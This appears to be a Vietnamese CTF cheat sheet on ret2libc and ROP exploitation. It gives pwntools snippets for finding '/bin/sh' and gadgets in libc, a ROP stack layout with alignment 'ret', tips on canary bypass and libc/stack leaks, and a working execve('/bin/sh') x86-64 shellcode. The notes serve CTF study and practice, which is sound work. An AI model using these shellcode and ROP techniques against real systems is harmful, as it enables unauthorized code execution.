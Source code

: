 # ret2libc-ROP

- Overview:
   * pwntools '/bin/sh':
    ```python
    next(libc.search(b'/bin/sh'))
    ```
   * [Tools local find offset LIBC](https://x3ero0.tech/posts/orxw_balsn_ctf_2021_pwn/) .
   * Trong libc.so.6 có mọi gadgets, đôi khi không thể dùng tools để tìm được 1 số gadgets. VD: `syscall ; ret` [dicectf 2023 - bop].
   ```python
   import pwn
   rop = pwn.ROP(libc, base=<address_overwrite>)
   rop.call(rop.find_gadget(["syscall", "ret"]))
   print(rop.dump())
   ```
   * Từ Ubuntu 18.04 trở đi, nếu việc thực thi thất bại tại những hàm như buffered_vfprintf() hay do_system() trong những file thực thi 64 bit là do ngay trước câu lệnh ret, đầu vùng nhớ stack được cấp phát 16 bytes cho việc gọi lệnh tại return address nên để thực thi được thì cần chèn thêm 1 ROPgadget "ret" vào trước câu lệnh cần thực thi để bỏ đi 1 stack 8 bytes đầu tiên và thực thi câu lệnh này nằm ở stack ngay sau đó.
    ```
    STACK:
    1. địa chỉ lệnh "ret"
    2. địa chỉ lệnh "pop rdi, ret"
    3. địa chỉ lưu chuỗi 
    4. địa chỉ hàm gets

    5. địa chỉ lệnh "ret"
    6. địa chỉ lệnh "pop rdi, ret"
    7. địa chỉ muốn được in (đọc chuỗi)
    8. địa chỉ hàm printf 
    # leak = printf thì sau printf lại phải dùng ret
    9. địa chỉ lệnh "ret"
    10. địa chỉ nào đó muốn return về.
    ```
    * Vậy nên để bypass tránh việc ghi đè canary ta chỉ cần nhập chữ cái (+, -, *, /) mà không thuộc format %lu thì phần tử đó sẽ bị skip, không thay đổi. VD: chall `Warmup` - UIT-2022-CTF . 
    * Lỗi ép kiểu là khi khai báo biến x là long (8 byte) nhưng khi xử lý điều kiện ép kiểu nó thành int (4 byte) dẫn đến sai về mặt giá trị so sánh (trên thanh ghi) => bug
    * Leak được LIBC thì có thể leak được stack thông qua biến environ trong LIBC.
    * Viết sheelcode cần set context.binary

    ```python
    ...
    elf = ELF('./vuln')
    context.binary = elf
    p = elf.process()
    ...

    shellcode = asm('''
         instruction assembly
         ...
    ''')

    OR

    context.arch = 'amd64'
    shellcode = asm(
        f'''
        xor rdi, rdi
        push rdi
        mov rdi, 0x68732f2f6e69622f
        push rdi
        mov rdi, rsp
        xor rdx, rdx
        xor rsi, rsi
        xor rax, rax
        add al, 0x3b
        syscall
        ''')
    ```


- Technique:
    * [CTF: No leak - close(fd)](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) .
    * [CTF: BlindROP](https://soolidsnake.github.io/2018/07/15/blindx86_64_rop.html) .
    * BRUTEFORCE - `TWOSHOT - KMACTF2022` * ...

